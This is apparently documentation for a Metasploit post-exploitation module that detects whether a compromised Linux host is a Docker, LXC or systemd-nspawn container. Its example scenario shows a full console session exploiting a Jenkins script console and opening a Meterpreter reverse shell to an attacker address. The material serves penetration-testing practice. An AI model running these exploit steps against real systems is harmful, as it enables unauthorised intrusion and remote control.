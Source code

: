 ## Indicators

  There are several indicators that a process is being executed inside of a container. This module looks for the following indicators:

  1. Presence of `/.dockerenv` file indicates Docker.
  2. Finding select strings in `/proc/1/cgroup` indicates LXC or Docker.
  3. The value of the `container` environment variable in `/proc/1/environ` indicates LXC or systemd nspawn.

## Verification Steps

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. `run post/linux/gather/checkcontainer`
  4. You should get feedback if a container was detected

## Options

### SESSION

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

  Check if the jenkins instance you have a shell on is running inside a Docker container.

```
msf > use exploit/multi/http/jenkins_script_console 
msf exploit(jenkins_script_console) > set API_TOKEN bc3dbc5c328733cc826c15772e6eaef5
API_TOKEN => bc3dbc5c328733cc826c15772e6eaef5
msf exploit(jenkins_script_console) > set RHOST 10.0.0.40
RHOST => 10.0.0.40
msf exploit(jenkins_script_console) > set RPORT 8080
RPORT => 8080
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
msf exploit(jenkins_script_console) > set TARGET 1
TARGET => 1
msf exploit(jenkins_script_console) > set USERNAME user
USERNAME => user
msf exploit(jenkins_script_console) > run

[*] Started reverse TCP handler on 10.0.0.49:4444 
[*] Checking access to the script console
[*] Authenticating with token...
[*] Using CSRF token: 'b83d12171ba5248100f1de20e6472067' (Jenkins-Crumb style)
[*] 10.0.0.40:8080 - Sending Linux stager...
[*] Sending stage (826840 bytes) to 10.0.0.40
[*] Meterpreter session 1 opened (10.0.0.49:4444 -> 10.0.0.40:54404) at 2017-08-16 20:56:23 -0500
[!] Deleting /tmp/aFdmPcC payload file

meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'Docker' container
meterpreter > 
```
Detect a LXC container
```
meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'LXC' container
meterpreter > 
```
Detect a systemd nspawn container
```
meterpreter > run post/linux/gather/checkcontainer 

[+] This appears to be a 'systemd nspawn' container
meterpreter > 
```
Detect nothing
```
meterpreter > run post/linux/gather/checkcontainer 

[*] This does not appear to be a container
meterpreter > 
```
